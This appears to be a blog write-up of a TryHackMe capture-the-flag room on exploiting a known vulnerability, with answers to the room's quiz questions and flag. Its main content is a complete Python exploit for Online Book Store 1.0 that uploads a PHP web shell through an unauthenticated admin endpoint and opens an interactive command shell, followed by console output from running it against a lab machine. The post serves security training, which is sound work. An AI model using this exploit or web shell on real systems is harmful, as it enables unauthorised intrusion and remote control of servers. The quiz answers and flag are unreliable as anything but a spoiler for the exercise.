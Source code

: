 ```yaml
---
title: Exploit Vulnerabilities
author: CYB3RM3
name: CYB3RM3 | Exploit Vulnerabilities
date: 2021-09-24 21:30:29 +0100
categories: [TryHackMe, Web]
tags: [Web]
---
```



THM Room [https://tryhackme.com/room/exploitingavulnerabilityv2](https://tryhackme.com/room/exploitingavulnerabilityv2)



## TASK 1 : Introduction
### Let's proceed.
No Answer

## TASK 2 : Automated Vs. Manual Vulnerability Research 
### ou are working close to a deadline for your penetration test and need to scan a web application quickly. Would you use an automated scanner ? (Yay/Nay) 
Answer : YAY

### You are testing a web application and find that you are able to input and retrieve data in a database.  What vulnerability is this ?
Answer : Injection

### You manage to impersonate another user. What vulnerability is this ?
Answer : Broken Access Control

## TASK 3 : Finding Manual Exploits 
### hat website would you use as a security researcher if you wanted to upload a Proof of Concept ?
Anwser : GitHub

### You are performing a penetration test at a site with no internet connection. What tool could you use to find exploits to use ?
Anwser : Searchsploit

## TASK 4 : Example of Manual Exploitation 
### What type of vulnerability was used in this attack ?
Answer : Remote Code Execution

## TASK 5 : Practical: Manual Exploitation 
### Find out the version of the application that is running. What are the name and version number of the application ?

Open the website and take a look down the page :

![Bookshop](/images/thm/exploitingavulnerabilityv2/exploitVuln_1.png)
_Bookshop_

Answer : Online Book Store V1.0

### Now use the resources and skills from this module to find an exploit that will allow you to gain remote access to the vulnerable machine.
Let's research this on google :

![BookStore Vulnerabilities](/images/thm/exploitingavulnerabilityv2/exploitVuln_2.png)
_BookStore Vulnerabilities_

It's seem good, let's go ahead and download the exploit :

![BookStore RCE](/images/thm/exploitingavulnerabilityv2/exploitVuln_3.png)
_BookStore RCE_

What does the exploit looks like ?

```python
# Exploit Title: Online Book Store 1.0 - Unauthenticated Remote Code Execution
# Google Dork: N/A
# Date: 2020-01-07
# Exploit Author: Tib3rius
# Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-book-store-project-in-php/
# Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
# Version: 1.0
# Tested on: Ubuntu 16.04
# CVE: N/A

import argparse
import random
import requests
import string
import sys

parser = argparse.ArgumentParser()
parser.add_argument('url', action='store', help='The URL of the target.')
args = parser.parse_args()

url = args.url.rstrip('/')
random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))

payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

file = {'image': (random_file + '.php', payload, 'text/php')}
print('> Attempting to upload PHP web shell...')
r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
print('> Verifying shell upload...')
r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

if random_file in r.text:
    print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
    print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
    launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
    if launch_shell.lower() == 'y':
        while True:
            cmd = str(input('RCE $ '))
            if cmd == 'exit':
                sys.exit(0)
            r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
            print(r.text)
else:
    if r.status_code == 200:
        print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
    else:
        print('> Web shell failed to upload! The web server may not have write permissions.')
```

No Answer

### Use this exploit against the vulnerable machine. What is the value of the flag located in a web directory ?

Ok, this python script just need the URL as parameter :

```console
root@ip-10-10-45-35:~/Desktop# python 47887.py http://10.10.53.2
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.53.2/bootstrap/img/TtkeMldBQi.php
> Example command usage: http://10.10.53.2/bootstrap/img/TtkeMldBQi.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ ls
OyWjgNLIbq.php
TtkeMldBQi.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
flag.txt
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
pro_asp4.jpg
pro_js.jpg
unnamed.png
web_app_dev.jpg


RCE $ cat flag.txt
THM{BOOK_KEEPING}
```
{: .nolineno }

Answer : THM{BOOK_KEEPING}
